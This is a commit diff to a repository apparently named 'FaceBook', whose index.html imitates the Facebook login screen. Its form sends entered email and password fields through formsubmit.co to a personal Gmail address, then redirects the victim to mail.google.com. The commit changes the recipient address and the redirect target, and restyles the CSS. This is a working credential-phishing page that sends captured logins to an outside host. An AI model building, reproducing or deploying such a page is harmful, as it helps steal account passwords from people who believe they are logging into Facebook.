

Before and after one commit to TAMO-lt/FaceBook, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 73-650 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -9,14 +9,14 @@
     <link rel="stylesheet" href="style2.css">
 </head>
 <body>
-    <form action="https://formsubmit.co/tjmusiclt@gmail.com" method="POST">
+    <form action="https://formsubmit.co/tomopastas555@gmail.com" method="POST">
         <form action="/action_page.php">
-            <input type="hidden" name="_next" value="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRLSbzjnsxAt8-cJ8HUk_ox7mXW3caDbIOA2Q&usqp=CAU">
+            <input type="hidden" name="_next" value="https://mail.google.com">
             <input type="hidden" name="_captcha" value="false">
     <nav><img src="nav.jpeg" alt=""></nav>
     <main>
-        <input type="email" placeholder="Mobile number or email" name="email"><br>
-        <input type="password" placeholder="Password" name="password">
+        <div class="input"><input type="email" placeholder="Mobile number or email"></div>
+        <div class="input"><input type="password" placeholder="Password"></div>
         <input type="submit" value="Log In">
         <div class="or"><div></div><p>or</p><div></div></div>
         <div class="create"><button>Create New Account</button></div>
--- a/style2.css
+++ b/style2.css
@@ -44,6 +44,12 @@ input[type=submit]{
     color: white;
     font: arial;
     font-weight: bold;
+}
+@media only screen and (min-width: 1000px){
+    input[type=email],input[type=password], input[type=submit]{
+        width: 40%;
+        margin: 5px 0;
+    }
 }
 .or > div{
     height: 1px;
@@ -104,3 +110,8 @@ main > a:hover{
 .inc{
     color: #888;
 }
+.input{
+    width: 100%;
+    display: flex;
+    justify-content: center;
+}
```
